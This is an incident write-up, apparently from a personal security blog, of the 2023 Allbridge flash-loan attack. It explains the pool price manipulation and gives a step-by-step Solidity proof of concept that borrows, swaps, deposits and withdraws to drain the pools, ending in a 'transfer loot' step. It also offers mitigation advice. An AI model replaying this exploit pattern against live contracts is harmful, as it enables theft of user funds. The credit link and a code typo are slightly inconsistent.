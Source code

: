 # Allbridge


## What's Allbridge?
Allbridge is a leading cross-chain provider, specializing in integrating EVM with non-EVM blockchains.
Their mission is to make the blockchain world borderless by providing an 
infrastructure to freely move assets between various networks


## Amount stolen
$550k USD

2-04-2023

## Vulnerability
flashloan attack


## Analysis
The root cause appears to be the manipulation of the pool's swap price.
The attacker was able to act as the liquidity prover and swapper resulting the user to manipulate the price and drain funds from the pool



## exploited code

```solidity

  function withdraw(uint256 amountLp) external {
    uint 256 totalLpAmount_ = totalLpAmount; // Gas optimization

    _withdrawLp(msg.sender, amountLp);

    // Calculate actual and virtual tokens using burned LP amount share
    // Swap the difference, get total amount to transfer/burn
    uint256 amountSP = _preWithdrawSwap(
       tokenBalance * amountLp / totalLpAmount_,
       vUsdBalance * amountLp / totalLpAmount_
    );

    // Always equal amounts removed from actual and virtual tokens
 
```

## whats a pool?

Liquidity pools allow users to trade digital assets on decentralized exchanges 
within the decentralized finance (DeFi) ecosystem,

The assets held in a liquidity pool are locked in place by a smart
contract and are added to the pool by liquidity providers. 

In most cases, providers add an equal value of two tokens to a 
pool to create a market, which is similar to trading pairs on traditional exchanges. 

Market participants that provide liquidity (contribute crypto assets) to a liquidity pool will earn trading fees as 
a reward for the trades executed within the pool. 

# proof of concept (PoC) 


 - We start with a flashloan $7.5M of BUSD `pancakeSwap.swap(0, 7_500_000e18, address(this), "Test");`


During that flashloan we execute the following:

 - 2 million of 7.5 will be swapped for $2M of $BSC-USD in pool_0x312B
```solidity
        BUSD.approve(address(pool_0x312B), type(uint256).max);
        BSC_USD.approve(address(pool_0x312B), type(uint256).max);
        pool_0x312B.swap(address(BUSD), address(BSC_USD), 2_003_300e18, 1, address(this), block.timestamp + 100 seconds);
```


Then deposits $5M BUSD into pool 0x179a

```solidity
        BUSD.approve(address(pool_0x179a), type(uint256).max);
        pool_0x179a.deposit(5_000_000e18);
```

Swap BUSD to BSC_USD

```solidity
          pool_0x312B.swap(address(BUSD), address(BSC_USD), 496_700e18, 1, address(this), block.timestamp + 100 seconds);
```

Deposit $2 mil into pool_0xb19c

```solidity
        BSC_USD.approve(address(pool_0xb19c), type(uint256).max);
        pool_0xb19c.deposit(2_000_000e18);
```

The attacker then swaps $500K BSC-USD for $BUSD 
        in Allbridge's Bridge contract, resulting in a high 
        dividend for the previous liquidity deposit.



```solidity
   bytes32 bsc_usd = 0x00000000000000000000000055d398326f99059ff775485246999027b3197955;
        bytes32 busd = 0x000000000000000000000000e9e7cea3dedca5984780bafc599bd69add087d56;

        uint256 BSC_USD_bal = BSC_USD.balanceOf(address(this));
        bridge.swap(BSC_USD_bal, bsc_usd, busd, address(this));
```

   The BUSD liquidity in 0x179a is then removed, 
        at which point the liquidity balance within 
        the 0x179a pool is broken.

```solidity
          pool_0x179a.withdraw(4_830_262_616);
```
 
  The attacker was then able to swap out $790,000 
        of BSC-USD from Bridge using only $40,000 of BUSD.
        

```solidity
           bridge.swap(40_000e18, busd, bsc_usd, address(this));
```

Withdraw from pool_0xb19c
 
```solidity
        pool_0xb19c.withdraw(1_993_728_530);
```


Swap BSC_USD to BUSD in pool_0x312B

```solidity
        BSC_USD_bal = BSC_USD.balanceOf(address(this));
        pool_0x312B.swap(address(BSC_USD), address(BUSD), BSC_USD_bal, 1, address(this), block.timestamp + 100 seconds);
```


Repay flashloan


 ```solidity
        BUSD.transfer(address(pancakeSwap), 7_522_500e18);
```

Transfer loot to attacker


```solidity
        BUSD.transfer(tx.origin, BUSD.balanceOf(address(this)));
```


```solidity
    console.log("hacker BUSD bal after attack is        ", BUSD.balanceOf(tx.origin));
```

## Mitigation and Best Practices:



Ensure verification in the bridge swap price calculation, and prohibit users from assuming multiple roles within the price calculation business logic for any given pool.

Protocols need to add security layers,
using at least two oracles to verify the price. An oracle serves as a means to obtain Real-World Data, enabling smart contracts to interact with external information. This approach would have detected anomalies, such as the mismatch where $40,000 USD should not have been able to purchase 700,000 BSC tokens, preventing potential vulnerabilities or exploits.


## Conclusion 

xd


**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/88mph_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
